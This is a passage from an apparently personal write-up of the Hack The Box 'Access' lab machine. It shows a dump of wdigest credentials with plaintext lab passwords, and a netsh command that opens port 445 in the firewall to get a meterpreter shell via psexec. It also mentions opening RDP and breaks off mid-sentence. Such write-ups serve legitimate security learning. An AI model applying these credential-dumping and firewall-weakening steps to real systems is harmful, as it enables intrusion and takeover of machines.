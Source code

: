 
## wdigest credentials

```bash
AuthID     Package    Domain        User                Password
------     -------    ------        ----              | --------
0;996    |  Negotiate |  HTB         |  ACCESS$
0;119773 |  Negotiate |  IIS APPPOOL |  DefaultAppPool|
0;995    |  Negotiate |  NT AUTHORITY|  IUSR
0;997    |  Negotiate |  NT AUTHORITY|  LOCAL SERVICE
0;45589  |  NTLM
0;999    |  NTLM      |  HTB         |  ACCESS$
0;458676 |  NTLM      |  ACCESS      |  security      |  4Cc3ssC0ntr0ller
0;456008 |  NTLM      |  ACCESS      |  security      |  4Cc3ssC0ntr0ller
0;646488 |  NTLM      |  ACCESS      |  Administrator |  55Acc3ssS3cur1ty@megacorp
```
# Post-Exploit

26. I opened a telnet session and logged in using the admin password. Then I opened port 445/tcp to open a meterpreter shell with **psexec**

```bash
netsh advfirewall firewall add rule dir=in action=allow protocol=TCP \
localport=445 name="allow_TCP-445
```
![alt text](/images/htb-Access/opened-smb-port.png)


27. I also opened port 3389/tcp just for fun and to see if rdesktop would work - it didn't!

====================================================================================

28. I also wanted to test uploading my own jpg file on the webserver instead of the default.jpeg. Looking in websrc

